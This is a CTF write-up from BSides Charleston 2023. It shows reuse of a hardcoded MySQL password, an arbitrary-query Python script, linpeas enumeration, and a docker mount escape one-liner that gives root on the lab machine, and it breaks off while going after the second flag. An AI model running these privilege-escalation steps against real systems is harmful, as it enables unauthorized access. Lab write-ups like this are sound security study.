







# BSIDES-CHARLESTON-2023-writeup

This is my writeup for the BSides Charleston CTF that took place on 11-4-2023. My team (l0wg4ng) and I were tasked to obtain 3 flags from a target machine which we had to SSH into. There was no initial foothold required as they supplied us with the SSH credentials. NOTE: The first flag had a hint before the CTF which mentioned it is found in a mysql database.

## Enumeration

After logging into the machine via SSH, I transferred over linpeas.sh via scp to check how I could privesc as soon as I got in.

```
scp linpeas.sh kingpwn@10.10.10.204:/tmp/linpeas.sh 
```

After running linpeas, I noticed that it picks up docker as a possible privesc point. I decide to focus on that later.



## Flag 1

I run `sudo -l` and notice that the current user can run tickets.py without a password. 



There is also a python script in the home directory which has this script that has a username and password. I also remember there being a mysql db that we had to access from the hints.

```
import mysql.connector

def create_ticket(title, description):
    user = 'dbtickets'
    password = 'ayuaiJ5YJ3XNn8'

    connection = mysql.connector.connect(
        host="localhost",
        user=user,
        password=password,
        database="ticketDB"
    )

    cursor = connection.cursor()

    
    flag = input("Enter A Severity Flag: High or Low: ")

    ticket = (title, description, flag)
    query = "INSERT INTO tickets (title, description, flag) VALUES (%s, %s, %s)"

    cursor.execute(query, ticket)
    connection.commit()

    print(f"Ticket Created: {title}")
    cursor.close()
    connection.close()

if __name__ == "__main__":
    title = input("Enter Ticket Title: ")
    description = input("Enter Ticket Description: ")
    create_ticket(title, description)

```

When trying to access the mysqldb with the creds above, I get an error that I can't run mysql on this machine. My teammate was able to create a python script that would be able to connect to the mysqldb and allow us to get the first flag.

The working script is below:
```
import mysql.connector

def query_database(query):
    user = 'dbtickets'
    password = 'ayuaiJ5YJ3XNn8'
    database = 'ticketDB'  # Replace with your actual database name

    # Establish a database connection
    connection = mysql.connector.connect(
        host="localhost",
        user=user,
        password=password,
        database=database
    )

    cursor = connection.cursor()

    # Execute the query
    try:
        cursor.execute(query)
        if cursor.with_rows:
            # Fetch the results and print them
            results = cursor.fetchall()
            for row in results:
                print(row)
        else:
            print("Query executed successfully")
    except mysql.connector.Error as err:
        print(f"Error: {err}")

    # Close the cursor and connection
    cursor.close()
    connection.close()

if __name__ == "__main__":
    while True:
        query = input("Enter your SQL query (or type 'exit' to quit): ")
        if query.lower() == 'exit':
            break
        query_database(query)

```

We named the script db.py and executed it, and were able to obtain the first flag.



## Flag 3

I actually found the 3rd flag before getting the 2nd one. So I am jumping ahead for now. Remembering the local enumeration I did before with linpeas, there is a potential docker escape privesc that I can run here.

I checked GTFObins and found this one:
https://gtfobins.github.io/gtfobins/docker/

I then ran this command to get the 3rd flag:
`docker run -v /:/mnt --rm -it alpine chroot /mnt sh`



I confirmed that I can read the flag for the root user.




## Flag 2

There is still a 2nd flag that I skipped, and remembering there is a docker container in this machine. I run the following commands to check and also access the container with a bash shell:
```
docker ps
docker exec -it 8269fa564b7e bash
```


As soon as I get into the container, I check with `sudo -l` and see another potential privesc path.




